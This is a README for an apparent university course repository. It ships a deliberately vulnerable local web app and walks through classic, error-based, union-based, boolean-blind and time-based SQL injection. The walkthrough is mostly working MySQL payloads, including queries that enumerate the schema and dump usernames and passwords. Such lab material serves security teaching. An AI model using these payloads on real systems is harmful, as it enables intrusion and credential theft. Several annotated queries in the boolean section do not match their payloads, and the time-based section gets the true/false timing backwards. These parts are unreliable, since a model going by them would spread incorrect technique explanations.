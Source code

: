 # sqli-demo
SQL Injection proof of concept for C4239. This repository contains an intentionally vulnerable web application, that contains NUS Course data. However, due to **poorly written code**, we are able to enumerate this database as well as obtain sensitive user data.

In this document, we'll walkthrough various SQL Injection (**SQLi**) techniques, how they work and when to use them. We also explain why they can happen and some **mitigation/prevention techniques**.

# Setup
Ensure that you have docker installed. To start the vulnerable application, run the following command:

```
docker-compose up --build -d
```

The vulnerable web application will be available at `http://localhost:3000`

# Classic/In-Band SQLi
Under `http://localhost:3000/classic`, we are able to see an input that allows us to search for a course. For example we can enter:
```sql
CS4239
-- SELECT * FROM courses WHERE course_code = 'CS4239';
```
Which only gets us the result of a single row.

What if we want to enumerate the entire table? Since this application is vulnerable to SQL injection, we are able to run this:
```sql
' OR '1'='1
-- SELECT * FROM courses WHERE course_code = '' OR '1'='1';
```

## Error-Based SQLi

Error messages can provide us with information about the database being attacked. Sending in a single quote generates an error message that tells us that we are on a MySQL database


```sql
'
-- SELECT * FROM courses WHERE course_code = ''';
```

## Union-Based SQLi
Know that we understand how this query is vulnerable, we can do Union-Based SQLi to get more information from the database, not limited to the table.

Now we can deduce the number of columns being returned by trial and error until we get the following:
```sql
' UNION SELECT 1,2,3,4 -- -';
-- SELECT * FROM courses WHERE course_code = '' UNION SELECT 1,2,3,4 -- -';
```
(We do this because to have a union query, both sides of the union must return the same number of columns)

Following that, we can gain access to various information about the database.

```sql
' UNION SELECT user(),database(),version(),4 -- -'
-- SELECT * FROM courses WHERE course_code = '' UNION SELECT user(),database(),version(),4 -- -';
```

Table data:

```sql
' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='sqlidemo') -- -'
-- SELECT * FROM courses WHERE course_code = '' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='sqlidemo') -- -';
```

Column data:

```sql
' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users') -- -'
-- SELECT * FROM courses WHERE course_code = '' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(column_name) from information_schema.columns WHERE table_name='users') -- -';
```

Row data:

```sql
' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(username, " ", password) FROM users) -- -'
-- SELECT * FROM courses WHERE course_code = '' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(username, " ", password) FROM users) -- -'
;
```

# Blind SQLi
What if the application is slightly more secure and displays less information? How can we tell if SQL Injection is still possible? 
## Content-Based/Boolean SQLi
In Content-Based SQLi, we get an oracle that tells us only if our search query is successful or not. 

We can similarly tell if this input is vulnable to SQL Injection by testing some queries:

```sql
' OR 1=1 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR 1=1 -- -';
' OR 1=2 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR 1=2 -- -';
```
If the first query gives a true result and the second gives a false result, we know that this input is vulnerable to such attacks.

We can go on to further to enumerate the database by trial and error:

```sql
' OR (SELECT database() LIKE 'a%') -- -'
-- SELECT * FROM courses WHERE course_code = '' OR 1=1 -- -';
' OR LENGTH(database())=6 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR 1=2 -- -';
' OR SUBSTRING(database(), 1, 1) = 'a' -- -'
-- SELECT * FROM courses WHERE course_code = '' OR 1=2 -- -';
```

Enumerating database tables:

```sql
' OR (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='sqlidemo' LIMIT 1 OFFSET 0) = 5 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema='sqlidemo' LIMIT 1 OFFSET 0) = 5 -- -';
' OR (SELECT SUBSTRING(table_name, 1, 1) FROM information_schema.tables WHERE table_schema='your_database' LIMIT 1 OFFSET 0) = 'a' -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT SUBSTRING(table_name, 1, 1) FROM information_schema.tables WHERE table_schema='your_database' LIMIT 1 OFFSET 0) = 'a' -- -';
```

Enumerating database tables:

```sql
' OR (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) = 5 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) = 5 -- -';
' OR (SELECT SUBSTRING(column_name, 1, 1) FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) = 'a' -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT SUBSTRING(column_name, 1, 1) FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) = 'a' -- -';
```

Enumerating database rows:

```sql
' OR (SELECT LENGTH(username) FROM users LIMIT 1 OFFSET 0) = 5 -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT LENGTH(username) FROM users LIMIT 1 OFFSET 0) = 5 -- -';
' OR (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1 OFFSET 0) = 'a' -- -'
-- SELECT * FROM courses WHERE course_code = '' OR (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1 OFFSET 0) = 'a' -- -';
```

While it takes longer than Classic SQLi, its equally effective when run automatically with a script.

## Time-Based SQLi
In Time-Based SQL Injection, we may not have a boolean indicator to tell us whether something a query returns true or not. However, use things like total query time as an indicator of true or false.

We can use a SLEEP function in MySQL to test whether our query is true. If our query is true, it will return immediately. If the query is false, there will be a delay becuase the SLEEP function will run.

```sql
CS4239' AND SLEEP(5) -- -'
-- SELECT * FROM courses WHERE course_code = 'CS4239' AND SLEEP(5) -- -';
```

Note that we don't use `' OR SLEEP(5) -- -'`, because for every row that doesn't meet the first condition, we also run a SLEEP. So if there is 500 rows that don't meet that condition, it will take 2500 seconds to complete the query, and will be noticed.

We can use this method to enumerate the entire database, similar to the Content-Based SQLi.